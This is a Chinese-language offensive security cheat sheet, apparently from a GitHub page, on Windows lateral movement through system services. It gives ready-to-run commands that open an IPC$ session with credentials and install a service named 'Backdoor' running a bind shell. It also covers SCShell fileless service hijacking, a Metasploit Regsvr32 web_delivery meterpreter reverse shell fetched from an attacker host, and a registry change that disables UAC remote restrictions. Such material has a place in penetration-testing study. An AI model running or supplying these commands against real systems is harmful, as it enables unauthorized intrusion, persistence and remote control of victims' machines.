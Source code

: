 # 利用系统服务

#### sc创建远程服务

建立IPC$连接

```
net use \\10.10.10.22\IPC$ "P@ssW0rd!" /user:"Administrator"
```

利用sc创建后门系统服务

```
sc \\10.10.10.22 create Backdoor binpath= "cmd.exe /k C:\bind_tcp4567.exe"
```

sc启动服务

```
sc \\10.10.10.22 start Backdoor
```

sc删除服务

```
sc \\10.10.10.22 delete Backdoor
```

#### SCShell创建服务(无文件落地)

关于SCShell

* https://raw.githubusercontent.com/Mr-Un1k0d3r/SCShell/master/SCShell.exe
* 利用系统服务，无文件横向移动工具
* 利用用户凭证
* 通过ChangeServiceConfigAPI修改远程主机系统服务
* 替换二进制路径对服务进行重用，运行结束恢复服务配置
* 需已知远程主机上的系统服务

```
[[SCShell]].exe <Target> <service name> <payload> <Domain> <Username> <Password>

SCShell.exe 10.10.10.22 defragsvc "C:\Windows\System32\cmd.exe /c calc" . Administrator P@ssW0rd!
```

**Regsvr32执行外部SCT文件上线：**

起Web Delivery 生成Regsvr32 payload

```
msfconsole
use exploit/multi/script/web_delivery
set lhost xxxx
set payload windows/x64/meterpreter/reverse_tcp
set target Regsvr32
```

SCShell执行

```
SCShell.exe 192.168.0.106 defragsvc "C:\Windows\System32\cmd.exe /c C:\Windows\System32\regsvr32 /s /n /u /i:http://192.168.0.108:8080/jBGirUm8c6t9RA.sct scrobj.dll" . Administrator P@ssW0rd!
```

#### UAC Remot Restrictions

关闭远程限制

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
